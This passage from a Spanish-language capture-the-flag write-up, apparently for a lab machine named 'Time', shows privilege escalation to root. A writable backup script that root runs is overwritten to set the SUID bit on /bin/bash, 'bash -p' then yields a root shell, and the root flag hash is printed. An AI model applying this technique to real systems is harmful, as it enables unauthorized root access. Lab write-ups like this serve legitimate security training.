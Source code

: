
```bash
root     /bin/sh -e /usr/lib/php/sessionclean
root     /bin/sh -e /usr/lib/php/sessionclean
root     /lib/systemd/systemd-udevd
root     /lib/systemd/systemd-udevd
root     /lib/systemd/systemd-udevd
root     /bin/bash /usr/bin/timer_backup.sh
root     zip -r website.bak.zip /var/www/html
root     /bin/bash /usr/bin/timer_backup.sh
root     zip -r website.bak.zip /var/www/html
```

Viendo las propiedades del archivo, vemos que somos propieatarios, por tanto tenemos permiso de escritura.


```bash
pericles@time:/home/pericles$ ls -l /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Jun 12 23:40 /usr/bin/timer_backup.sh
pericles@time:/home/pericles$
```

Lo siguiente que haremos sera modificar el archivo, añadiendole una instruccion que nos otorgue el privilegio `suid` a la `bash`.


```bash
pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
#!/bin/bash
chmod  u+s /bin/bash
```

Ya que el usuario `root` nos ejecutara el archivo despues de unos segundos verificamos si nos asigno el permiso correspondiente a la `bash`.


```bash
pericles@time:/home/pericles$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Feb 25  2020 /bin/bash
```

Lo unico que nos queda por hacer seria ejecutar `bash -p` y nos convertiriamos en el usuario `root`, ahora vamos a su directorio personal y visualizamos la segunda flag `root.txt`.

```bash
pericles@time:/home/pericles$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
a527d7fbd3e113aeb96d956af2900de8
```
